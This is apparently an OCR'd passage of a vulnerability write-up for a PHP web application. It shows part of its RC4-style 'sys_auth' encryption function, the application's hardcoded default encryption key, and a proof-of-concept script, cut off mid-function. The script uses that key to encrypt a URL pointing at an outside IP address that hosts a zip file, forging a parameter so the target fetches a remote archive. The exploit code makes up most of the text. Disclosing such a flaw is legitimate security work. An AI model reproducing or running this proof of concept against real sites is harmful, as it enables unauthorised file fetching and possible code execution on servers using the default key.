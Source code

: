```php
		$a = ($a + 1) % 256;
		$j = ($j + $box[$a]) % 256;
		$tmp = $box[$a];
		$box[$a] = $box[$j];
		$box[$j] = $tmp;
		$result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
	} 
	if($type == 1) {
		if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
			$result = substr($result, 26);
			$json = json_decode($result,1);
			if(!is_numeric($result) && $json){
				return $json;
			}else{
				return $result;
			}
		}
		return '';
	}
	return str_replace('+', '-', $keyc.str_replace('=', '', base64_encode($result)));
}
```

**db.php**

```php
//encryption_key密钥
define('Mc_Encryption_Key','GKwHuLj9AOhaxJ2');
```

**poc**

```php
<?php
define('Mc_Encryption_Key','GKwHuLj9AOhaxJ2');
 
$strings = 'http://49.232.206.37/a.zip';
 
echo(sys_auth($strings));
 
function sys_auth($string, $type = 0, $key = '', $expiry = 0) {
    if(is_array($string)) $string = json_encode($string);
    if($type == 1) $string = str_replace('-','+',$string);
    $ckey_length = 4;
    $key = md5($key ? $key : Mc_Encryption_Key);
    $keya = md5(substr($key, 0, 16));
    $keyb = md5(substr($key, 16, 16));
    $keyc = $ckey_length ? ($type == 1 ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';
    $cryptkey = $keya.md5($keya.$keyc);
    $key_length = strlen($cryptkey);
    $string = $type == 1 ? base64_decode(substr($string, $ckey_length)) :  sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
    $string_length = strlen($string);
    $result = '';
    $box = range(0, 255);
    $rndkey = array();
    for($i = 0; $i <= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }
    for($j = $i = 0; $i < 256; $i++) {
        $j = ($j + $box[$i] + $rndkey[$i]) % 256;
        $tmp = $box[$i];
        $box[$i] = $box[$j];
```